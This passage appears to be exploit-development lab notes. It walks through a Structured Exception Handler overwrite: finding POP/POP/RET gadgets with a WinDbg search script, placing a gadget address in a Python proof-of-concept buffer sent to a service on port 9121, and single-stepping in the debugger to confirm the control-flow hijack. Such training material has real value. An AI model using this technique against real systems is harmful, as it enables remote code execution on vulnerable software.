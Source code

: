 	nasm > pop esi
	00000000  5E                pop esi
	
	nasm > pop edi
	00000000  5F                pop edi
	
	nasm > pop ebp
	00000000  5D                pop ebp
	
	nasm > ret
	00000000  C3                ret
	
They are consecutively going from 0x58 to 0x5F, so we can search this with windbg by saving it as a file with find_ppr.wds:
	.block
	{
		.for (r $t0 = 0x58; $t0 < 0x5F; r $t0 = $t0 + 0x01)
		{
			.for (r $t1 = 0x58; $t1 < 0x5F; r $t1 = $t1 + 0x01)
			{
				s-[1]b 10000000 10226000 $t0 $t1 c3
			}
		}
	}
	
We can then take those memory addresses and confirm it points to a P/P/R sequence, and doesn't have bad characters in the address:
	u 1015a2f0 L3
	
Now in our script we update the poc with this in the instruction pointer:
	...
	try:
	  server = sys.argv[1]
	  port = 9121
	  size = 1000
	
	  inputBuffer = b"\x41" * 128
	  inputBuffer+= pack("<L", (0x1015a2f0))  # (SEH) 0x1015a2f0 - pop eax; pop ebx; ret
	  inputBuffer+= b"\x43" * (size - len(inputBuffer))
	...
	
Now run exchain when we run into the access violation after running again:

	!exchain
	u 1015a2f0 L3

At this point, we want to set up a software breakpoint at the address of our P/P/R sequence and let the debugger goto handle the exception. This should redirect the execution flow and hit our breakpoint.
	bp 0x1015a2f0
	g
	
Let's single-step through the POP instructions and inspect the address we will be returning into:
	r
	t
	t
	dd poi(esp) L8
	t
	